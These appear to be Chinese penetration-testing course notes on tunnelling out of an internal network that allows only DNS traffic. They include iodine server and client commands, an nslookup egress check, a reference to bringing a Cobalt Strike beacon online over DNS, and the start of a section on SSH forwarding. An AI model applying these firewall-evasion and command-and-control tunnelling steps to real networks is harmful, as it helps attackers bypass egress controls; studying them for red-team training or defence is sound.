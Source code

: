 1. 环境：内网主机只出网DNS协议数据

2. 解决：
   - 服务器尝试SSH协议连接客户端绕过限制
   - 上线CS DNS协议 参考前面课程

3. - 工具：[iodine](https://github.com/yarrick/iodine)

   - 判断出网：

     ``` powershell
     nslookup www.baidu.com
     ```

4. 服务器：

   ``` shell
   iodined -f -c -P username 192.168.0.1 URL -DD
   ```

5. 尝试连接：

   ``` shell
   ssh root@192.168.0.2
   ```

6. 设置密码xiaodi并创建虚拟IP及绑定域名指向

7. 客户端：

   ``` shell
   iodine -f -P username URL
   ```

8. 连接密码xiaodi并绑定域名指向

## SSH隧道-防火墙-本地&远程转发数据通讯

![内网隧道建立SSH](img/NwSdJl3.png)
